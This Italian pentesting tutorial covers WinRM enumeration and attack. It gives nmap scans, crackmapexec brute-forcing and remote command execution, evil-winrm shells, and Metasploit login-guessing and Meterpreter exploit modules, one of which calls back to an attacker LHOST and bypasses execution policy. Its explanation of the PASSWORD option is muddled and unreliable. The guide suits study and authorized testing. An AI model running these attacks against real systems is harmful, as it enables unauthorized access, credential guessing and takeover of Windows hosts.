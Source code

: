 # WinRM Enumeration

WinRM (Windows Remote Management) è un protocollo Microsoft che consente l’amministrazione remota di macchine Windows tramite PowerShell. È basato su HTTP e HTTPS, e le sue porte predefinite sono:

- `5985/TCP` per HTTP
- `5986/TCP` per HTTPS

WinRM viene usato in ambienti Windows moderni, soprattutto in Active Directory, per gestire sistemi da remoto. Se correttamente configurato, può essere un punto d’accesso molto potente per un attaccante.

## Attenzione alla scansione

La scansione standard di Nmap (`nmap -sS <IP>`) **non include automaticamente le porte 5985 e 5986**, quindi è fondamentale specificarle manualmente:

`nmap -p 5985,5986 -sV <IP>`

Oppure, per script specifici:

`nmap -p 5985 --script http-winrm-info <IP>`

Questa scansione verifica se WinRM è attivo e restituisce informazioni come header HTTP, certificati e dettagli del server.

## Enumerazione e attacco con CrackMapExec

Per attaccare WinRM è molto utile il tool `crackmapexec`, che supporta vari protocolli di Windows. Per visualizzare tutti i moduli e opzioni disponibili, esegui:

`crackmapexec`

Per effettuare un attacco di brute-force sul servizio WinRM:

`crackmapexec winrm <IP> -u <username> -p <wordlist>`

Un ottimo punto di partenza è usare come username `administrator`, poiché è il primo utente generato quando WinRM viene attivato ed è dotato di privilegi amministrativi.

Se una password valida viene trovata, puoi rieseguire lo stesso comando con la password corretta e aggiungere `-x "<comando>"` per eseguire comandi remoti:

`crackmapexec winrm <IP> -u administrator -p Password123 -x "whoami"`

Puoi così eseguire `whoami`, `systeminfo`, `hostname` o altri comandi informativi.

## Accesso interattivo con Evil-WinRM

Per ottenere una vera e propria shell PowerShell remota, usa `evil-winrm`:

`evil-winrm.rb -u <username> -p '<password>' -i <IP>`

Questo comando apre una sessione interattiva da cui puoi:

- Eseguire comandi PowerShell
- Caricare o scaricare file
- Lanciare script di post-exploitation
- Raccogliere informazioni sulla macchina e sulla rete

## Brute-force con Metasploit

Metasploit include un modulo per tentare il login sul servizio WinRM in modo automatico. È utile se vuoi testare più combinazioni di credenziali in un attacco dizionario.

Apri `msfconsole` e utilizza il modulo:

`use auxiliary/scanner/winrm/winrm_login` <br>
`set RHOSTS <IP>` <br>
`set USERNAME <username>` <br>
`set PASS_FILE <path_alla_wordlist>` <br>
`run` <br>

Questo modulo tenterà tutte le password contenute nella wordlist indicata per lo username specificato. È utile anche per testare una lista di utenti con:

`set USER_FILE <lista_utenti>` <br>
`set PASS_FILE <lista_password>` <br>

Attenzione perché questo modulo specifico richiede comunque che venga impostata l’opzione `PASSWORD`, altrimenti non potrà procedere all'esecuzione del payload remoto. In contesti in cui non hai la password reale (ma per esempio solo l’hash), puoi semplicemente usare un valore qualunque, come la stringa `anything`.

Questo funziona perché il modulo non verifica la correttezza della password prima dell’esecuzione: la connessione e l’autenticazione sono già state risolte dalla sessione stabilita, ma il modulo necessita comunque che il campo PASSWORD sia popolato per non generare errori di esecuzione.

Può essere una buona alternativa a `crackmapexec` in ambienti dove preferisci restare dentro Metasploit o tracciare tutto in sessioni di lavoro.

## WinRM con Metasploit – Accesso Meterpreter

Esiste anche un exploit in Metasploit per ottenere una sessione Meterpreter tramite WinRM:

`use exploit/windows/winrm/winrm_script_exec`

Configura i seguenti parametri:

- `set RHOST <IP>`
- `set LHOST <tuo_IP>`
- `set USERNAME <utente>`
- `set PASSWORD <password>`
- `set FORCE_VBS true`

### Cosa fa FORCE_VBS?

WinRM supporta l’esecuzione remota di script in PowerShell, ma a volte i permessi o le policy locali bloccano certi tipi di comandi interattivi. L'opzione `FORCE_VBS true` forza l'esecuzione dello script tramite un wrapper in VBScript, che spesso **bypassa restrizioni di esecuzione o policy di gruppo** troppo restrittive. Questo aumenta la compatibilità e l'affidabilità dell'exploit in ambienti più protetti.

## Considerazioni finali

WinRM è uno dei metodi più potenti per accedere da remoto a macchine Windows in modo completamente interattivo. È sicuro solo se ben configurato e filtrato via firewall. Se trovi le porte 5985 o 5986 aperte e riesci a ottenere le credenziali, puoi:

- Ottenere shell con privilegi elevati
- Eseguire lateral movement
- Eseguire escalation di privilegi
- Lanciare exploit o script direttamente in memoria

Per questo motivo, ogni volta che trovi WinRM attivo, va considerato un obiettivo critico.

